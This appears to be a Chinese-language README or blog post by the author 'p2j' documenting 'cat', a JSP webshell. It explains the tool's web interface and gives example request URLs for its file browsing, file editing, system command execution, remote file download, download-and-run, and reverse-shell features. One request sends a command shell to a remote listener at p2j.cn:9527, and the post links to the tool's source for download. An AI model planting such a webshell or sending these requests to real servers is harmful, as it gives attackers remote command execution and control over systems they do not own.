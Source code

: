 cat小工具  
Author: p2j  

我觉得这都算不上什么webshell了，写这个只是为了简化一些操作。cat提供了简单的的文件遍历、管理、命令执行、反弹shell、文件下载、自动下载并执行这么几个小功能。

web界面只是一个简单的文件目录浏览功能和文件下载功能：  

![img](1.jpg)  

点击文件名可以编辑对应的文件，新建文件也可以在这里进行File地址写上需要编辑的文件绝对路径就行了：  

![img](2.jpg)   

执行系统命令会比较麻烦，因为需要自己写参数了：  
![img](3.jpg)  

    请求：http://localhost:8080/Struts2/cat.jsp?action=exec&cmd=ifconfig  

参数:  

    action=exec  

    cmd=需要执行的命令。  

文件下载分为远程文件下载和本地文件下载。本地文件下载直接点击下载即可从服务器上下载对应的文件。而远程文件下载的则需要继续以参数的方式请求：  

![img](4.jpg) 

    请求：http://localhost:8080/Struts2/cat.jsp?action=downloadL&url=http://www.baidu.com/img/bdlogo.png&path=bdlogo.png  

参数：  

    action=downloadL

    url=需要下载的文件的URL地址

    path=文件保存的绝对路径，注意如果只写文件名会下载到当前运行环境的目录下(比如tomcat会下载到tomcat的bin目录)。

本地文件下载如遇到目录则自动打包成zip。  

自动下载并执行，这个功能实际上是为了简化操作。下载某个文件然后可以用命令去调用它。这个命令如果能正常执行完是会有回显的。并且下载的文件会在命令执行结束后自动删除掉。  

![img](5.jpg)   

    请求：http://localhost:8080/Struts2/cat.jsp?action=auto&url=http://www.baidu.com/img/bdlogo.png&fileName=bdlogo.png&cmd=cat%20bdlogo.png

参数：  

    action=auto

    url=需要下载的文件的URL地址

    fileName=文件名

    cmd=需要执行的系统命令

反弹shell，这里实现的仅仅是一个系统执行命令的入口反弹，而非反弹一个具体的文件流。即给远程监听的nc反弹一个能够执行命令的入口。  

![img](6.jpg)   

    请求：http://localhost:8080/Struts2/cat.jsp?action=shell&host=p2j.cn&port=9527

参数：  

    action=shell

    host=远程IP

    port=远程监听的端口


源码下载：[Cat.zip](http://pan.baidu.com/s/1hqmWGFM)  
[url](http://p2j.cn/?p=1533)